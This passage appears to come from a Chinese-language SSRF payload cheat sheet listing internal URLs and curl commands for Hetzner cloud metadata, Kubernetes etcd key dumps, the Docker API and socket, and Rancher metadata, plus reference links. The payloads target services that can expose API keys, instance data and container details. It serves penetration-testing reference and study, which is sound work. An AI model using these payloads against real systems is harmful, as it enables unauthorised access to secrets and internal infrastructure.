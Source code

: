 ## Hetzner Cloud的SSRF URL

```powershell
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```

## Kubernetes ETCD的SSRF URL

可能包含API密钥以及内部IP和端口

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

## Docker的SSRF URL

```powershell
http://127.0.0.1:2375/v1.24/containers/json

简单示例
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

更多信息：

* 守护进程套接字选项: <https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option>
* Docker引擎API: <https://docs.docker.com/engine/api/latest/>

## Rancher的SSRF URL

```powershell
curl http://rancher-metadata/<version>/<path>
```

更多信息: <https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/>

## 参考资料

* [通过Google收购中的SSRF提取AWS元数据 - tghawkins - 2017年12月13日](https://web.archive.org/web/20180210093624/https://hawkinsecurity.com/2017/12/13/extracting-aws-metadata-via-ssrf-in-google-acquisition/)
* [利用AWS Elastic Beanstalk中的SSRF - Sunil Yadav - 2019年2月1日](https://notsosecure.com/exploiting-ssrf-aws-elastic-beanstalk)

